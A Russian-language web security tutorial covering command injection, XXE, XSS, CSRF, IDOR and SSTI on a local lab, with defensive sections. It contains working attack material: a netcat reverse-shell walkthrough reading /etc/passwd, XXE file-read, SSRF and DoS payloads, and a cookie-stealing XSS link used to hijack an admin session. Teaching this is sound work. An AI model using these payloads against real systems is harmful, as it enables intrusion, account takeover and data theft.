




# Web Application Security Analysis (WASA)
Анализ защищенности веб-приложений — это комплексный процесс технического обследования, направленный на выявление уязвимостей, логических ошибок и слабых мест в безопасности веб-ресурсов (сайтов, API). Он включает автоматизированное сканирование и ручное тестирование, имитирующие действия злоумышленников для предотвращения утечек данных, несанкционированного доступа и взлома.

## 1 Серверные уязвимости
Серверные уязвимости используются для компрометации серверов и они гораздо опаснее, чем клиентские уязвимости.
Пример серверных веб-уязвимостей:
1. OS Command Injection
2. PHP Code Injection
3. SQL Injection
4. XXE (XML External Entity)
5. SSTI (Server Side Template Injection)
### 1.1 OS Command Injection
Уязвимость, которая позволяет злоумышленнику выполнять произвольный код на уязвимом сервере и может привести к полной компрометации сервера. **В наше время встречается редко**.
### 1.2 PHP Code Injection
В PHP Code Injection злоумышленник внедряет PHP-код в уязвимое веб-приложение. Тоже **встречается крайне редко** и ведёт к полной компрометации сервера.
### 1.3 SQL Injection
Уязвимость, которая позволяет изменить первоначальный SQL-запрос. С ее помощью можно получить доступ к конфиденциальной информации, так как злоумышленник может отправлять произвольные запросы к базам данных. **Встречается умеренно**.
### 1.4 XML External Entity (XXE)
`XML` - это формат данных, который используется в HTTP-запросах наравне с JSON и данными в чистом виде. Уязвимость `XXE` встречается на веб-сервисах, где есть XML-парсеры. Может привести к полной компрометации сервера.
### 1.5 Server Side Template Injection (SSTI)
`SSTI` - внедрение шаблонов на стороне сервера. Опасная уязвимость, которая может встретиться везде, где используются `шаблонизаторы` (Template) - как правило в Python/PHP проектах. Также может привести к полной компрометации сервера.

## 2 Клиентские уязвимости
Как правило клиентские уязвимости используются для мошеннических действий по отношению к пользователям/клиентам.
Пример клиентских веб-уязвимостей:
1. HTML Injection
2. XSS(Cross-Site Scripting)
3. CSRF(Cross-Site Request Forgery)

### 2.1 HTML Injection
https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/03-Testing_for_HTML_Injection

`HTML`- язык гипертекстовой разметки страницы. Не является языком программирования. Уязвимость, которая позволяет злоумышленнику внедрить HTML-код в уязвимую страницу. 

У неё есть 2 вида: 
* отражённые (reflected);
* хранимые (stored). 

Самые опасные из них `хранимые`, так как они позволяют записать вредоносный HTML-код в базу данных веб-сайта или любое другое хранилище. 

Если же HTML-инъекция `отражённая`, то она эксплуатируется через URL и используется для фишинга. 

Данная уязвимость может привести к краже конфиденциальных данных и денежных ресурсов пользователей.

### 2.2 XSS (Cross-Site Scripting)
Данная уязвимость схожа с HTML Injection, но гораздо опаснее, потому что внедряется код на языке программирования `JavaScript`. Если злоумышленнику удастся заэксплуатировать `XSS`, то он сможет выполнять любые действия пользователя в рамках веб-сайта и видеть всё то, что видит пользователь, записывать нажатия клавиш жертвы. 

`XSS` включает в себя 3 вида:
* отражённые (reflected); 
* хранимые (stored);
* DOM-based. 

Первые два работают по аналогии с HTML Injection, а `DOM-based` - это `XSS`, при которой веб-сайт не возвращает полезную нагрузку в ответе. То есть эксплутация происходит только на стороне клиента. **XSS встречается крайне часто**.

### 2.3 CSRF (Cross-Site Request Forgery)
`CSRF` - это межсайтовая подделка запросов. Через данную уязвимость злоумышленник может вынудить пользователей совершить действие на веб-сайте без их согласия, например, удалить свой же аккаунт, перевести деньги и так далее.
**Встречается достаточно часто**.

## 3 Мисконфиги (Misconfiguration)
`Мисконфиги` - это уязвимости, возникающие вследствие ошибок в настройках безопасности приложений. Практически всегда являются человеческой ошибкой - администратор веб-сервера мог установить какой-то софт и забыть сменить стандартные данные входа. В таком случае злоумышленнику не составит труда найти эти данные в интернете и авторизоваться, например, с правами админа.

Веб-сервера apache2 настроен так, что автоматически запускается вместе с операционной системой. Проверить работоспособность веб-сервера можно через следующую команду в терминале:
```
$ sudo systemctl status apache2
```
Запустите веб-сервер с помощью команды:
```
$ sudo systemctl start apache2
```
Установим листенер (слушатель обратного подключения) через команду `nc` (`netcat`) с портом 1234, который изначально указан в `php-reverse-shell.php`:
```
$ nc-nlvp 1234
```
* `-l` используется, чтобы сообщить netcat, что это будет прослушиватель.
* `-v` используется для запроса подробного вывода.
* `-n` указывает netcat не разрешать имена хостов и не использовать DNS.
* `-p` указывает, что последует спецификация порта.

Загрузив реверс reverse-shell на сервер и запустив его на сервере мы получим доступ к серверу из хоста клиента. 

## 4 Обход авторизации (Authentication Bypass)
`Обход авторизации` - это несанкционированный доступ к различным ресурсам веб-сервера. То есть непривилегированный пользователь может получить доступ к контенту, который изначально не был предназначен для него. 

## 5 IDOR
`IDOR` (Insecure Direct Object References "Небезопасная прямая ссылка на объект").

Как правило у каждого веб-приложения есть свои `объекты` (которые реализовываются через сущности). И пользователи могут обращаться к этим объектам. Предположим, что есть веб-сайт и на нём реализована служба поддержки. Пользователь переходит на страницу, где можно открыть обращение в тех. поддержку. Он описывает в веб-форме свою проблему и нажимает кнопку отправить. На бэкэнде записывается его обращение и отправляется в базу данных:
* http://example.com/problem/1
* http://example.com/problem/2
* http://example.com/problem/N
* http://example.com/problem.php?id=1
* http://example.com/problem.php?id=2
* http://example.com/problem.php?id=N

Когда Вы открываете обращение, то скорее всего Вам вернётся ссылка, например, `http://example.com/problem/29312`. А что, если попробовать перейти не на `http://example.com/problem/29312`, а на `http://example.com/problem/29311`? Можно попробовать перейти на
`http://example.com/problem/29311`, и если у Вас это получилось, то поздравляем, Вы
обнаружили `IDOR`. Очевидно, что пользователи не должны видеть обращения других
пользователей.

### 5.1 Защита от IDOR
1. Создавать случайные идентификаторы. Например, какие-нибудь `идентификационные хэши`, то получить доступ к чужим обращениям без прямых ссылок было бы крайне сложно.
2. Использовать различные методы идентификации, например, `JWT-токены` (Json Web Token — ключ аутентификации пользователя). В таком случае на сервере могла бы быть проверка на то, действительно ли принадлежит токен с определённым ID пользователю, который обращается по ссылке. Если не принадлежит, то и доступа нет.
3. Должна присутствовать `фильтрация ввода` пользователей. 

## 6 CMD Injection
CMD Injection (OS Command Injection) - уязвимость, которая позволяет внедрить команды операционной системы с помощью вредоносного запроса. Злоумышленник найдёт и получит удалённый доступ - RCE (Remote Code Execution).

### Разбор HTML-кода

* Тег `<form>` предназначен для создания формы, как правило в него помещают другие теги.
* Тег `<input>` - это сама форма ввода. Используется атрибут name со значением `target`. Это значит, что мы можем получить значение из тега в PHP через массив `$_POST[‘target’]` после отправки формы.
* Тег `<button>` предназначен для создания кнопки при нажатии на которую происходит отправка данных из формы.

### Разбор PHP-кода
```php
<?php
if (isset($_POST['submit'])) {
    $target = $_POST['target'];
    echo "<h3>Результат:</h3>";
    echo "<pre>";
    system("whois $target");
    echo "</pre>";
}
?>
```
Используется условная конструкция `if` вместе с функцией `isset()`, которая проверяет наличие данных в массиве `$_POST['submit']`. То есть, когда мы нажимаем кнопку, то значение `submit` отправляется в `$_POST['submit']`, следовательно, функция `isset()` возвращает положительный результат. А значение из `input` отправляется в `$_POST['target']`, поскольку тег имеет атрибут name равным `target`.

В данной строке кода мы присваиваем значение из массива `$_POST['target']` переменной `target`:
```
$target = $_POST['target'];
```
Функция `system` выполняет код операционной системы:
```
whois наша_цель
```
Давайте подумаем, как мы можем это проэксплуатировать, тем самым скомпрометировав сервер. У нас есть шаблон:
```
whois $target
```
Очевидно, что нужно внедрять команды через переменную target. 

В Linux Вы можете запускать сразу несколько команд по очереди через точку с запятой - `;`, а также символы `&&` (И) и `||` (ИЛИ).

Например, `whoami` вместе с `pwd`:
```
$ whoami; pwd
student
/home/student
```

Воспользуемся сервисом `https://www.revshells.com/`. С его помощью нам не нужно писать свой `пэйлоад` - он сделает всё за нас. Достаточно указать наш IP-адрес и порт.

Выбираем вкладку `"nc mkfifo"` и готовый `пэйлоад` - `rm /tmp...` . Чтобы получить обратную оболочку, нам нужно поставить листенер `nc`.

Листенер запущен, теперь копируем `пэйлоад` -  `rm /tmp...` и вставляем его в форму на сайте...

В литсенере мы получили удалённый доступ от лица веб-сервера (www-data):
```
$ nc-nlvp 9898
listening on [any] 9898 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 45500
sh: 0: can't access tty; job control turned off
$ whoami; id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ ls /home/student/
ls: cannot open directory '/home/student/': Permission denied
$ cat /etc/passwd
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```

## 7 PHP Code Injection
В `CMD Injection` происходит выполнение кода операционной системы. В `PHP Code Injection` происходит выполнение именно PHP-кода.

Функция `system()` выполняет код операционной системы, а `eval()` выполняет PHP-код.

### Защита
Достаточно просто не использовать опасные функции вместе с пользовательским вводом. Вам необходимо тщательно фильтровать то, что вводит пользователь (точно ли пользователь ввёл домен или IP-адрес, точно ли ввёл цифру или арифметический знак), например, использовать белые списки и регулярные выражения.

Список наиболее опасных PHP-функций для операционной системы:
* exec
* system
* shell_exec
* proc_open
* passthru
* expect_popen
* pcntl_exec

Список наиболее опасных PHP-функций для PHP-кода:
* eval
* create_function
* include
* include_once
* require
* require_once

## 8 XXE (External Entity XML "внедрение внешних сущностей XML")
Одна из самых опасных уязвимостей, которая позволяет злоумышленнику внедрять вредоносный код в запрос, содержащий в себе XML. 

### XML (eXtensible Markup Language)
Расширяемый язык разметки, который очень похож на `HTML`, но у них есть кардинальные различия. У языка разметки `HTML` есть фиксированный набор ключевых слов, у `XML` нет ограничения на семантику и свободой выбора имен для тегов. 

XML удобен для создания и обработки документов как программами, ориентированными на web-разработку, так и человеком.

### BurpSuite
`BurpSuite`- это инструмент для тестирования безопасности веб-приложений, разработанный компанией PortSwigger. Он предоставляет набор функций, которые помогают исследователям безопасности и разработчикам обнаруживать уязвимости веб-приложений и выполнять тестирование на проникновение.

`BurpSuite` состоит из множества встроенных модулей (можно расширить за счёт собственных модулей):
1. `Proxy` (Прокси): Позволяет перехватывать и изменять запросы и ответы между клиентом и сервером. Это позволяет анализировать и модифицировать трафик, отправляемый между браузером и веб-приложением.
2. `Intruder` (Проникновение): Используется для автоматизации атак на веб-приложения. Позволяет настраивать и запускать различные виды атак, например, словарные атаки, перебор параметров и другие.
3. `Repeater` (Повторитель): Позволяет повторять запросы к веб-приложению с возможностью изменения параметров для тестирования различных сценариев и проверки уязвимостей.
4. `Sequencer` (Последователь): Используется для анализа случайности генерации токенов или сессий в веб-приложении.
5. `Decoder` (Декодер): Позволяет выполнять декодирование и кодирование различных форматов данных, таких как URL-кодирование, Base64, шестнадцатеричное кодирование и другие.

### Прокси
Настроим прокси (посредник между клиентом и сервером) для того, чтобы перехватывать HTTP-запросы через `BurpSuite`. Откроем браузер и нажмём на кнопку `Application menu`, а затем `Add-ons and themes`:


В качестве прокси использовать плагин браузера Firefox под названием - `FoxyProxy` (FoxyProxy Standard). Нажимаем на значок лисы, а затем на кнопку `Options`, на кнопку `Add` -  нужно прописать адрес прокси сервера, которым будет являться `BurpSuite`:
1. Указываем заголовок. По нему мы можно ориентироваться, когда мы включаем прокси.
2. Указываем протокол HTTP.
3. Указываем IP-адрес прокси (127.0.0.1).
4. Указываем стандартный порт BurpSuite 8080.
5. Имя пользователя (Username) и пароль (Password) указывать не нужно.
6. Нажимаем кнопку `Save`.

Прокси работает только с HTTP-протоколом, чтобы он работал ещё с `HTTPS` нам нужно установить сертификат `PortSwigger`:
1. Запускаем `BurpSuite`
2. В `FoxyProxy` выберем `BurpSuite`
3. Перейдём по ссылке http://burp
4. И нажмём на кнопку `CA Certificate` (скачали)
5. Нажимаем на кнопку открытия меню в браузере и выбираем `Settings`
6. Переходим в `Privacy & Security`
7. Нажимаем кнопку `View Certificates…`
8. Нажимаем `Import…` и выбираем сертификат `PortSwigger` под названием `cancert.der`
9. Нажимаем на чекбокс `Trust this CA to identify websites` и кнопку `OK`
10. Сертификат установлен и мы можем перехватывать HTTPS-запросы

Перехватим запрос с помощью `BurpSuite`, чтобы это сделать нам нужно нажать на иконку плагина `FoxyProxy` в браузере И выберем `BurpSuite`.

Теперь переходим в сам инструмент и нажимаем кнопку `Intercept is off`. Введя запрос на сайте будет зависание так как инструмент перехватил запрос и ожидает действий от пользователя - отправить (`Forward`), изменить или сбросить (`Drop`) запрос (кнопки располагаются во вкладке перехваченного запроса - `Proxy->Intercept`).

Попробуем внедрить полезную нагрузку через XML, которая позволит определить имеет ли веб-приложение уязвимость XXE и внедрить внешнюю сущность `xxe` в элемент name:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe 'XXE Payload Works!'>]>
<root>
    <name>&xxe;</name>
    <password>test</password>
</root>
```
И нажать на кнопку `Forward`, чтобы отправить HTTP-запрос. В браузере получилось успешно внедрить XML-пэйлоад, так как вывелась строка `XXE Payload Works!`. Это значит, что никакой защиты от `XXE` в веб-приложении нет.

Уязвимость может привести к:
* Чтению локальных файлов сервера:
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]>
<root>
<name>&xxe;</name>
<password>test</password>
</root>
```
* Читать PHP-файлы через следующий враппер:
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=login.php'>]>
<root>
<name>&xxe;</name>
<password>test</password>
</root>
```
* Эксплуатации SSRF (Server Side Request Forgery `Подделка запросов на стороне сервера`)
* RCE (Remote Code Execution `удалённое выполнение кода`)
* DoS (Denial of Service `отказ в обслуживании`)

После эксплуатации, чтобы браузер работал корректно, нужно выключить прокси

### 8.1 SSRF с помощью XXE (Server Side Request Forgery "Подделка запросов на стороне сервера") 
`SSRF` - это уязвимость, позволяющая отправлять запросы от лица веб-сервера.

Запустим простейший HTTP-сервер python на 8000 порту с помощью
следующей команды:
```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) 
```
Теперь отправим POST-запрос с таким пэйлоадом:
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY xxe SYSTEM "http://127.0.0.1:8000/">]>
<root>
<name>&xxe;</name>
<password>test</password>
</root>
```
И получаем GET-запрос от уязвимого веб-сервера на наш веб-сервер python.

Уязвимость `SSRF` может привести к:
1. Сканированию внутренней сети
2. Несанкционированному доступу к внутренним службам
3. DDoS-атакам
4. Компрометации сервера в редких случаях

### 8.2 Эксплуатация RCE с помощью XXE
Иногда ошибки конфигурации приводят к уязвимости RCE (удалённое выполнение кода). Однако для этого требуется администратору сервера установить дополнительный враппер `expect`, так как он не поставляется вместе с PHP:
```html
<!DOCTYPE root [<!ENTITY xxe SYSTEM "expect://<команда_ОС>">]>
```

### 8.3 Эксплуатация DoS с помощью XXE
DoS (отказ в обслуживании) - это не уязвимость, а атака, с помощью которой можно вывести веб-сервер из строя. В некоторых случаях злоумышленник может осуществить её с помощью XXE:
```html
<!DOCTYPE root [<!ENTITY xxe SYSTEM "file:///dev/random">]>
```
`/dev/random` является генератором случайных чисел, который не требует для запуска специальных привилегий в системе. С помощью него можно вызвать отказ в обслуживании операционной системы.

### 8.4 Защита от XXE
Чтобы защититься от XXE, нужно соблюдать следующие требования:
1. Используйте более современные версии XML-парсеров или библиотек, которые автоматически защищены от `XXE` атак. Новые версии парсеров часто содержат механизмы безопасной обработки XML, например, отключение внешних сущностей по умолчанию.
2. Валидируйте входные данные - проверяйте и фильтруйте все данные, которые поступают от пользователя, особенно если они используются в XML-обработке.
3. Ограничьте доступ к ресурсам сервера - при выполнении XML-обработки сервер должен иметь доступ только к необходимым ресурсам. Нужно ограничить права доступа к файловой системе и сетевым ресурсам, чтобы минимизировать потенциальный ущерб от успешной XXE атаки.
4. Минимизируйте объем информации и избегайте передачи чувствительных данных через XML. Если это необходимо, шифруйте данные перед передачей и расшифровывайте их только на надежной стороне.
5. Проверьте настройки сервера и рабочего окружения, чтобы убедиться, что они соответствуют безопасным рекомендациям. Например, отключение `"external entities"` в конфигурации сервера или установка соответствующих флагов.
Все эти меры безопасности должны быть реализованы вместе с другими техниками защиты, такими как обработка ввода и вывода, аутентификация и авторизация, чтобы обеспечить всестороннюю защиту приложения от XXE атак.

## 9 XSS (Cross-Site Scripting)
`XSS` (Межсайтовый скриптинг) - уязвимость в веб-приложениях, которая возникает при отсутствии или недостаточной фильтрации пользовательского ввода. То есть опасные символы/наборы символов, например, `>, <, <>, </>`, не экранируются. В таком случае злоумышленник может внедрить вредоносный код `Javascript` и выполнять действия от лица пользователя в рамках веб-сайта, например, записывать клавиши.

`XSS` бывает трёх видов - отражаемая (reflected), сохраняемая (stored) и DOM-Based:
1. Первая возникает, как правило, в уязвимых `GET-параметрах` и возвращается в ответе сервера.
2. Вторая, наиболее опасная, обычно сохраняется, например, в базах данных и тоже возвращается в ответе сервера.
3. Последняя эксплуатируется только на стороне клиента, то есть сервер не возвращает полезную нагрузку в ответе, но при этом она всё также опасна, как и первые две.

Проще всего проверить наличие `XSS` уязвимости с помощью пэйлоада, указав его в GET-параметре или в форму пользовательского ввода:
```html
<script>alert();</script>
```
Для профессионального тестирования на XSS и обхода фильтров требуются более сложные пэйлоады.

Воспользуемся следующим инструментом полезной нагрузку, чтобы украсть куки - https://github.com/kensworth/cookie-stealer

Перейдём в каталог `cookie-stealer` и запустим наш веб-сервер PHP от лица суперпользователя:
```
$ sudo php -S localhost:8000
```
Наш веб-сервер примет HTTP запрос c куками пользователя, посетившего страницу, которая уязвима к XSS, в случае создания ссылки с пэйлоадом:
```html
<script language="javascript"> document.location= " http://localhost:8000/cookiegrab.php?c=" + document.cookie; </script> 
```
В терминале появляются куки пользователя - пара ключ=значение.

### 9.1 Эксплуатация отражаемой XSS
Данный тип уязвимости используется для фишинга, а полезная нагрузка располагается в GET-параметре вредоносного URL.

Перейдём на веб-сайт и у нас есть `GET-параметр` title, в который ***передаётся заголовок заметки***. 
1. Указываем в GET-параметр title значение `test`.
2. На странице отображается текст `Заметка test`. Это значит, что сервер, обрабатывая наш GET-запрос, отрисовывает страницу с указанным в запросе значением.

Попробуем внедрить стандартный XSS-пэйлоад:
```html
http://localhost/lesson4/note.php?title=<script>alert();</script>
```
Всплывающее окно функции alert() отобразилось, следовательно, внедрённый нами Javascript-код, был успешно обработан сервером. 

Снова запустим веб-сервер на PHP, чтобы перехватить куки пользователя admin:
```
sudo php -S localhost:8000
```
Допустим существует 2 разных пользователя - student и admin. Предположим, что пользователь student имеет контакт с пользователем admin, например, в социальных сетях. Первый отправляет второму следующую ссылку:
```
http://localhost/lesson4/note.php?title=%3Cscript%3Edocument.location%3D%22http%3A%2F%2Flocalhost%3A8000%2Fcookiegrab.php%3Fc%3D%22%20%2B%20document.cookie%3B%3C%2Fscript%3E. 
```
Ссылку можно сократить с помощью ЯндексКликер.

Админ откроет её в браузере, где у нас режим инкогнито, нас перенаправило на http://localhost:8000/cookiegrab.php?c=User=admin.

А в терминале мы получаем куки админа - User=admin (значения куки). Теперь их можно вставить в браузер, нажав кнопку F12 и перейдя во вкладку `Storage`. И перезагружаем страницу. У нас появилась заметка админа, следовательно, мы в его аккаунте.

Мы создали вредоносную ссылку, которая содержит полезную нагрузку для уязвимости XSS. Перешли c аккаунта админа по этой ссылке и наши куки данные отправились в HTTP-запросе на другой веб-сервер, который предназначен для их перехвата.

### 9.2 Защита от XSS
В качестве защиты нужно использовать возможности языков программирования по фильтрации получаемых от пользователя данных. Например, в PHP Вы можете использовать функцию `htmlspecialchars()`.
Было:
```
echo "<h3> Содержание: </h3>" . $row['note'];
```
Стало:
```
echo "<h3> Содержание: </h3>" . htmlspecialchars($row['note']);
```

## 10 CSRF (Cross-Site Request Forgery)
`CSRF` (Межсайтовая подделка запроса) - это уязвимость, при которой злоумышленник может выполнить нежелательные действия, перенаправив запрос с другого сайта от имени авторизованного пользователя.

CSRF может привести к следующим последствиям:
1. `Privilege Escalation` - повышению привилегий, если атакующий через CSRF может создать нового пользователя с высокими правами.
2. `Изменению данных` - злоумышленник может изменять данные пользователя без его согласия. Например, он может изменить пароль, адрес электронной почты или другие персональные данные.
3. `Account takeover` (ATO) - несанкционированному доступу к аккаунту пользователя веб-сайта, приложения или онлайн-сервиса. В таких случаях злоумышленник получает контроль над аккаунтом и может проводить различные мошеннические действия от имени владельца аккаунта.
4. `RCE` (Remote Code Execution - удалённое выполнение кода) - если у злоумышленника получилось захватить аккаунт администратора. Возможны и прочие варианты последствий, в зависимости от функционала уязвимого приложения.

При удалении аккаунта куки могут оставаться в браузере. Их можно удалить с помощью F12 - Cookies - Delete All.

Предположим, что пользователь student имеет какой-то контакт с пользователем admin. Скопируем ссылку на кнопку `Экстренное удаление аккаунта с заметками` и вставим эту ссылку в новой вкладке браузера инкогнито. Нас сразу же перенаправило на страницу авторизации. Теперь вернёмся на основную вкладку в браузере инкогнито и обновим страницу. Админ, перейдя по небезопасной ссылке, ничего не подозревая, удалил свой аккаунт.

### 10.1 Защита от CSRF
1. Проверка заголовка `Referer`. При обработке запроса на сервере можно проверять заголовок `Referer`, чтобы убедиться, что запрос был отправлен с того же самого домена или ресурса, с которого ожидался запрос. Однако стоит отметить, что этот метод не всегда надежен, так как некоторые браузеры или прокси-серверы могут блокировать или изменять этот заголовок.

2. Использование токенов `CSRF` (CSRF tokens) - суть метода заключается в генерации уникального токена для каждого пользователя и включении его в формы или запросы, требующие изменения состояния на сервере. Токены CSRF могут быть сгенерированы случайным образом и связаны с пользовательской сессией. При получении запроса сервер проверяет, соответствует ли предоставленный токен ожидаемому значению.
3. Запрет автоматического выполнения запросов - позволяет браузерам блокировать автоматическое выполнение некоторых видов запросов, например, через использование механизмов `SameSite cookies` или `Content Security Policy` (CSP). Например, установка политики `SameSite` в значении `Strict` предотвратит отправку cookie на другие сайты, что может помочь защитить от атак `CSRF`.
4. Использование соответствующих HTTP-методов при реализации функциональности веб-приложения. Например, изменения состояния на сервере должны выполняться с использованием методов `POST`, `PUT` или `DELETE`, а не GET. Также следует быть осторожными с доступом к таким методам из сторонних источников.
5. `Ограничение действий пользователя` - включите дополнительные проверки перед выполнением опасных действий, таких как удаление данных или изменение настроек. Например, можно добавить подтверждение операций или требовать ввод пароля для выполнения критических действий.
6. Регулярная `установка обновлений` и патчей - всегда следует использовать актуальные версии фреймворков, библиотек и компонентов, а также регулярно обновлять их. В них уже добавлена защита от известных уязвимостей.
7. Защита от `XSS` - поскольку атаки CSRF могут использовать существующие уязвимости веб-приложения, такие как XSS (межсайтовый скриптинг), важно также обеспечить защиту от XSS. Санитизация и экранирование пользовательского ввода перед его отображением на странице могут помочь предотвратить XSS-атаки, которые могут быть использованы для проведения атак CSRF.

## 11 SSTI (Server-Side Template Injection) 
`SSTI` (Внедрение шаблонов на стороне сервера) - это уязвимость, позволяющая злоумышленнику внедрить и выполнить произвольный код на сервере через уязвимые механизмы шаблонизации.

`Шаблонизатор` - инструмент, который позволяет разработчикам создавать динамические веб-страницы, объединяя статический HTML-код с данными из источников, таких как базы данных или файлы. Шаблонизаторы позволяет разделить логику приложения от представления.

Основная идея шаблонизаторов заключается в том, что разработчик определяет шаблон страницы, в котором места для вставки динамических данных обозначаются специальными тегами или синтаксисом. Затем при отправке содержимого сервером и отрисовки её браузером шаблонизатор заполняет эти места актуальными данными, формируя окончательный HTML-код, который отправляется клиенту.

Уязвимость может привести к следующим последствиям:
1. Утечке конфиденциальной информации - злоумышленник может использовать SSTI для получения доступа к конфиденциальным данным.
2. Выполнению произвольного кода - злоумышленник может внедрить и выполнить произвольный код на сервере.
3. Атакам на инфраструктуру - SSTI может быть использована для атак на другие компоненты инфраструктуры (внутренние сети и облачные сервисы).
4. Отказу в обслуживании (DoS) - злоумышленник может использовать SSTI для создания нагрузки на сервер.
5. Расширению прав доступа - если приложение использует привилегированные шаблоны, то злоумышленник может использовать SSTI для расширения своих прав доступа и получения повышенных привилегий на сервере. 

Данную уязвимость можно обнаружить, имея доступ к коду приложения и коду страниц. Поиск нужно начинать с шаблонов и зависимостей проекта. Если доступа к исходному коду приложения нет, то поиск через пентест.

Чтобы начать тестировать нужна полезная нагрузка, например - 
```
${7*7}, {{7*’7’}}, {{7*7}}
```
